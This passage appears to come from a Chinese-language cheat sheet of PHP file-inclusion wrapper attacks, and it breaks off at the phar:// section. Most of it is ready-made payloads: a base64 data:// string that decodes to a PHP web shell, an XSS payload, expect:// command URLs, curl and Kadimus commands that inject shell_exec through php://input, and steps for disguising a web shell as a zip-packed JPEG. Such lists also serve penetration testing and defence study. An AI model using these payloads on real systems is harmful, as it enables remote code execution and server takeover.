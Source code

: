 ```powershell
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

有趣的是，你可以通过以下方式触发 XSS 并绕过 Chrome 审核器：`http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

## 包装器 expect://

当在 PHP 或类似的应用程序中使用时，它可能允许攻击者指定要在系统 shell 中执行的命令，因为 `expect://` 包装器可以作为其输入的一部分调用 shell 命令。

```powershell
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

## 包装器 input://

在 POST 参数中指定你的有效载荷，这可以通过简单的 `curl` 命令完成。

```powershell
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

或者，Kadimus 有一个模块可以自动化此攻击。

```powershell
./kadimus -u "https://example.com/index.php?page=php://input%00"  -C '<?php echo shell_exec("id"); ?>' -T input
```

## 包装器 zip://

- 创建一个恶意有效载荷：`echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;`
- 压缩文件

  ```python
  zip payload.zip payload.php;
  mv payload.zip shell.jpg;
  rm payload.php
  ```

- 上传存档并使用包装器访问文件：

  ```ps1
  http://example.com/index.php?page=zip://shell.jpg%23payload.php
  ```

## 包装器 phar://

### PHAR 归档结构

PHAR 文件的工作原理类似于 ZIP 文件，当你使用 `phar://` 来访问其中存储的文件时。
